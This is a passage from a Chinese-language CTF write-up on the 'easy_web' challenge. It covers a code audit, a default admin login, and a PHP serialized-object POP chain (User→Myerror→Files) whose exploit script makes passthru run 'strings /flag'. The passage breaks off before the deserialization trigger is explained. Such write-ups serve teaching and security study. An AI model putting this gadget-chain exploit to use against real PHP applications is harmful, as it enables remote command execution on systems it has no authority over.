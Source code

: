 ##  前言

这次出了两个题，但是只放了一个easy_web这个题。镜像我都上传到我的dockerhub里了，自己需要的可以拉取。

##  easy_web

F12,想到了robots.txt,下载源码

![image-20220517094631023](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220517094631023.png)

下载后开始审计代码，这儿我就不把源码复制过来了。

根据源码的`User.class.php`，直接admin,password登录进去

###  构造pop链

看到php文件中有很多魔法函数，就需要构造一个pop链子



链子从头到尾找，头部在`User`类的`__desctruct`中，然后尾部是在`Files`类中的`__get`中，里面可以执行任意命令；头部首先进入了`__desctruct()`后，可以通过数组的形式访问任意类的任意方法，那我们就让它访问`User`类的`check()`方法中，然后这里有`echo`，以字符串的形式输出对象，然后就会跳到`Myerror`类中的`__tostring()`方法中，然后它里面的`$this->test`是可控的，我们让它等于一个`Files`类里面没有的属性就行了，就可以直接调用`__get`方法了，并且给`$key`赋值，所以说现在的`exp`为：

```php
<?php
class Files{
    public $filename;

    public function __construct(){
        $this->arg = 'strings /flag';
    }
}
class Myerror{
    public $message;

    public function __construct(){
        $this -> test = 'passthru';
        $this -> message = new Files();
    }
}
class User{
    public $username = 'admin';
    public function __construct(){
        $this -> username = new Myerror();
    }

}
$a = new User();
$a -> password = [new User(),"check"];
echo serialize($a);
```

有了链子，然后我们需要想的是怎么触发这个反序列化，又没有`unserialize`的函数
